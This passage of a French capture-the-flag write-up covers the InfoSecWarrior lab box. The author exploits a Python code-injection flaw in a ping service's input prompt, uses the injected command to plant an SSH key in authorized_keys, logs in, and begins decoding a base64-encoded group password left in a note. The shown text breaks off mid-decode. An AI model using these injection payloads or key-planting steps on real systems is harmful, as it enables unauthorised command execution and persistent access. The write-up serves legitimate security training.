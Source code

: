 ```console

 Please input number of ping packet you want to send??: __import__("os").system("id")
uid=1001(bla1) gid=1001(bla1) groups=1001(bla1)
ping target (CTF.InfoSecWarrior)...
```

On va s'ajouter comme autorisés pour les connexions SSH au compte `bla1` :

```console
$ ncat 192.168.56.173 56563 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.173:56563.
Welcome to 
 

  ___        __      ____          __        __              _            
 |_ _|_ __  / _| ___/ ___|  ___  __\ \      / /_ _ _ __ _ __(_) ___  _ __ 
  | || '_ \| |_ / _ \___ \ / _ \/ __\ \ /\ / / _` | '__| '__| |/ _ \| '__|
  | || | | |  _| (_) |__) |  __/ (__ \ V  V / (_| | |  | |  | | (_) | |   
 |___|_| |_|_|  \___/____/ \___|\___| \_/\_/ \__,_|_|  |_|  |_|\___/|_|   
                                                                          


 Please input number of ping packet you want to send??: __import__("os").system("mkdir -p /home/bla1/.ssh/;echo ssh-rsa AAAA--- snip ---nV7Ez8/h >> /home/bla1/.ssh/authorized_keys")
ping target (CTF.InfoSecWarrior)...
```

## T'es trop VIP

Une fois connecté on trouve un fichier concernant l'utilisateur `bla2`. Il mentionne un mot de passe de groupe :

```console
$ ssh -i ~/.ssh/key_no_pass bla1@192.168.56.173
(-(-_(-_-)_-)-) (-(-_(-_-)_-)-) (-(-_(-_-)_-)-)

        ░░░░░░░░▄██████▄ Do this and I will give you a Hint
        ░░░░░░░█▀▀▀██▀▀▀▄
        ░░░░░░░█▄▄▄██▄▄▄█ Laugh uncontrollably for about 3 minutes
        ░░░░░░░▀█████████       then suddenly stop and look suspiciously 
        ░░░░░░░░▀███▄███▀░░          at everyone who looks at you.
        ░░░░░░░░░▀████▀░░░░░                Or
        ░░░░░░░▄████████▄░░░░ Enumerate Hostname and Distro's codename of this box
        ░░░░░░████████████░░░░       And try to get Secure SHell

(-(-_(-_-)_-)-) (-(-_(-_-)_-)-) (-(-_(-_-)_-)-)

PS: For Newbie refer this website to know more : google.co.in
bla1@ck04:~$ ls -alh
total 32K
drwxr-x--- 5 bla1 bla1 4.0K Apr 12 00:34 .
drwxr-xr-x 6 root root 4.0K Jan 28  2020 ..
lrwxrwxrwx 1 root root    9 Jan 27  2020 .bash_history -> /dev/null
-rw-r--r-- 1 root root   55 Feb 12  2020 bla2-note
drwx------ 3 bla1 bla1 4.0K Apr 12 00:34 .gnupg
-rw-r--r-- 1 root root    0 Feb 13  2020 .hushlogin
drwxrwxr-x 3 bla1 bla2 4.0K Feb 14  2020 .local
-rwxr-xr-x 1 bla1 bla1   87 Jan 27  2020 run.sh
-rwxr-xr-x 1 bla1 bla1  819 Feb 13  2020 script.py
drwxrwxr-x 2 bla1 bla1 4.0K Apr 12 00:33 .ssh
bla1@ck04:~$ cat bla2-note
My group password is czNjcjN0
I encoded my gpasswd :-P
bla1@ck04:~$ echo czNjcjN0 | base64 -d
```